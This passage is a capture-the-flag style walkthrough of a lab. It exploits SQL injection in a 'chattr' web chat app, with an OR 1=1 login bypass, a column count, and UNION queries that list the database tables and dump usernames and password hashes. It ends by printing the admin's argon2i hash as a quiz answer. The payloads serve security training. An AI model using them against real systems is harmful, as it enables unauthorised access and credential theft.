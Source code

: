 <img width="928" height="581" alt="5" src="https://github.com/user-attachments/assets/e3d3b09d-ae2d-4cae-8fa2-1ff680bd6d40" />


SQLi payload:

```
') OR 1=1-- -
```

Once we successfully created account, we can log in using our credentials we used to create our account


<img width="624" height="352" alt="7" src="https://github.com/user-attachments/assets/bdf76029-83f5-4551-8ba0-05226d6e032c" />

We successfully logged in.Let's take a look to our Home page


<img width="1216" height="372" alt="26" src="https://github.com/user-attachments/assets/e77220a2-dd48-417a-80f4-8be978a81bc6" />


I openned up chattr, where we can send a message.It looks like we can exploit it


<img width="1087" height="513" alt="8" src="https://github.com/user-attachments/assets/25b9f1a3-dd73-4534-8b5a-d3a501467f93" />


Firstly, we have to find the number of columns to retrieve sensitive information from database

<img width="1131" height="478" alt="29" src="https://github.com/user-attachments/assets/14b5455c-aea0-48f7-aa2b-341eb4769941" />

```
') order by 4
```

We didn't get any error, so it means we have 4 columns


After finding the number of columns, let's find tables name using this SQLi command:

```
q=Hello')UNION%20 select 1,2,table_name,4 from information_schema.tables-- - &u=4
```

<img width="1151" height="571" alt="12" src="https://github.com/user-attachments/assets/e6ef5f41-61fa-462e-a53f-594557b2360f" />

As we can see, we found User tables, where we can find username and password by default

```
Hello')UNION select 1,2,username,password FROM chattr.Users-- -&u=4
```

<img width="732" height="352" alt="30" src="https://github.com/user-attachments/assets/99afb3e7-dc4d-4583-9831-4da0dd769e21" />



***Question 1***


What is the password hash for the user 'admin'? 

```
admin:$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU
```

